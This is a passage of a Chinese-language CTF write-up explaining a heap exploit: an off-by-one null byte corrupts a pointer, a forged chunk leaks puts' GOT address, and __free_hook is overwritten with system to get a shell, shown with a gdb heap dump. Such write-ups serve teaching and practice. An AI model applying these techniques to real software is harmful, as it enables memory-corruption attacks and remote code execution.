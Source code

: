 末尾的*(undefined *)(param_1 + i) = 0;让读取内容时多了个\x00，这个\x00会溢出到下一个地址的低位，覆盖了本来正确的描述指针。下一次我们再edit des时，编辑的其实是这个指针里的内容。这个指针指向的内容目前是空的，最重要的一点，它一定会比原本的第6个堆块地址小。如果我们按照wp里编辑后会得到什么呢？


- (gdb) $ x/32g 0x00000000010c9500
<Br>0x10c9500:    0x0000000000000006    0x0000000036363636
<Br>0x10c9510:    0x0000000000603028    0x0000000000000000
<Br>0x10c9520:    0x0000000000000000    0x0000000000000000
<Br>0x10c9530:    0x0000000000000000    0x0000000000000041
<Br>0x10c9540:    0x0000000000000006    0x0000000036363636
<Br>0x10c9550:    0x00000000010c9580    0x0000000000000000
<Br>0x10c9560:    0x0000000000000000    0x0000000000000000
<Br>0x10c9570:    0x0000000000000000    0x0000000000000031
<Br>0x10c9580:    0x0000737373737373    0x0000000000000000
<Br>0x10c9590:    0x0000000000000000    0x0000000000000000
<Br>0x10c95a0:    0x0000000000000000    0x0000000000000041
<Br>0x10c95b0:    0x0000000000000007    0x3737373737373737
<Br>0x10c95c0:    0x00000000010c9500    0x0000000000000000
<Br>0x10c95d0:    0x0000000000000000    0x0000000000000000
<Br>0x10c95e0:    0x0000000000000000    0x0000000000000031
<Br>0x10c95f0:    0x0000737373737373    0x0000000000000000

发现了吗，真正的第六个堆块0x10c9540上面冒出来了一个假堆块，正是我们通过溢出改变指针后的内容。edit des中发送的payload不是乱写的，我们按照题目堆块的结构伪造了一个假堆块，一切都和真堆块一样，除了指向des的指针，是puts的got表。接下来我们打印名字为6666的堆块，会打印哪个？答案是我们的假堆块，因为它的地址比真堆块低，按照打印函数的逻辑，优先选地址最低的堆块打印。由此泄露了put的地址。

接下来就很简单了，算free_hook和system的地址，修改77777777堆块的des，也就是假堆块的des为free_hook的地址，再编辑6666堆块就能直接改成system了，和上面一样。最后free第一个堆块其实就是在调用system，提前写的/bin/sh发挥作用，getshell。